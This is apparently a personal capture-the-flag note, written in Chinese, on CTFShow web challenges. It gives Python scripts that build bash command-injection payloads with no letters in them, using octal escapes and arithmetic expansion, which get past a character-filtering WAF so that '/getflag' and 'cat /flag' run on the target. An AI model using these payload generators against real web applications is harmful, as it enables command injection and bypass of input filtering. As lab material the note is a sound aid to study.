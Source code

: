 tags:: CTF/Shell/利用进制转换构造无字母payload, CTF/Shell/WAF绕过

- # 1&2
	- ```python
	  
	  def zero_str():
	      return "$0"
	  
	  def num(n: int):
	      return str(n)
	  
	  def string(s: str):
	      return "$'" + "".join(
	          ["\\" + num(int(oct(ord(c))[2:]))
	              for c in s]
	      ) + "'"
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(
	          zero = zero_str(),
	          cmd = string(cmd)
	      )
	  
	  p = string("/getflag")
	  print(p)
	  ```
	- 把p交上去就行，注意转义
	- 参考[[CTFWEB/Shell/bash构造无字母payload]]
- # 5
	- 数字：参考 [[CTFWEB/WP/CTFShow/web57]]
	- bash str: 先在前方设置变量`__=$(())`，然后使用`${!__}`
	- 字符串：
		- ```python
		  def string_by_bin(s: str):
		      return "$\\'" + "".join(["\\\\" + number(int(oct(ord(c))[2:])) for c in s]) + "\\'"
		  ```
	- payload生成：
		- ```python
		  # payload = shell_payload.number(1)
		  
		  def number(n):
		      assert isinstance(n, int)
		      if n == 0:
		          return "$(())"
		      elif n == -1:
		          return "$((~$(())))"
		      elif n < 0:
		          return "$(({}))".format(
		              "".join(
		                  "$(({}))".format(number(-1))
		                  for _ in range(-n)
		              )
		          ) 
		      elif n > 0:
		          return "$((~{}))".format(
		              number(-n-1)
		          )
		  
		  def string_by_bin(s: str):
		      return "$\\'" + "".join(["\\\\" + number(int(oct(ord(c))[2:])) for c in s]) + "\\'"
		  
		  
		  def string(s: str):
		      """生成一个payload, 其经过两次解析后得到原有的字符串
		      经过一次解析：
		          "$\\'" -> "$'"
		          "\\\\" -> "\\"
		          数字payload -> 实际的数字
		          整个payload变成`$'\000\000'`的形式
		  
		      Args:
		          s (str): payload的值
		  
		      Returns:
		          str: payload
		      """
		      return string_by_bin(s)
		  
		  
		  def generate_payload(cmd):
		      return "{bash_str}<<<{bash_str}\\<\\<\\<{cmd}".format(bash_str=bash_str(), cmd=string(cmd))
		  
		  bash_str = lambda : "${!__}"
		  
		  payload = "__=$(())&&" + generate_payload("cat /flag")
		  print(payload)
		  r = base_post(url, data = {
		      "ctf_show": payload
		  })
		  print(r.text)
		  ```